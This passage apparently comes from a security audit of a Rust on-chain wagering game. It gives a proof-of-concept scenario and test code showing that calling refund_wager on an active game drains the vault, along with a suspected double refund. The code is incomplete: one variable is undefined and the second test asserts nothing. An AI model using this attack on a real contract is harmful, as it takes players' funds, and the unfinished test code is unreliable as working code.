 ## 🔬 Proof of Concept

### Attack Scenario
1. **Setup**: Create game session with 1,000 token bet per player
2. **Join**: 5 players join each team (10,000 tokens total)
3. **Start**: Game begins normally (status = InProgress)
4. **Attack**: Call refund_wager function
5. **Result**: All 10,000 tokens refunded, game marked completed
6. **Impact**: Active game drained, legitimate winners get nothing

### Test Code
```rust
#[cfg(test)]
mod test_multiple_refund_attack {
    use super::*;

    #[test]
    fn test_refund_active_game() {
        // Create active game session
        let mut game_session = create_test_game_session(1000);
        game_session.status = GameStatus::InProgress; // Game is active

        // Vault contains player deposits
        let initial_vault_balance = 10000;

        // Attacker calls refund while game is active
        let result = refund_wager_handler(
            create_refund_context(game_session, initial_vault_balance),
            "test_session".to_string()
        );

        // Refund succeeds despite game being active!
        assert!(result.is_ok());

        // All funds are drained from active game
        assert_eq!(vault_balance_after, 0);

        // Game is marked completed prematurely
        assert_eq!(game_session.status, GameStatus::Completed);
    }

    #[test]
    fn test_double_refund() {
        // Already completed game with refunds processed
        let mut game_session = create_test_game_session(1000);
        game_session.status = GameStatus::Completed;

        // Try to refund again
        let result = refund_wager_handler(
            create_refund_context(game_session, 0), // Vault already empty
            "test_session".to_string()
        );

        // Should fail but might not due to missing validation!
        // This could cause underflow or panic
    }
}
```
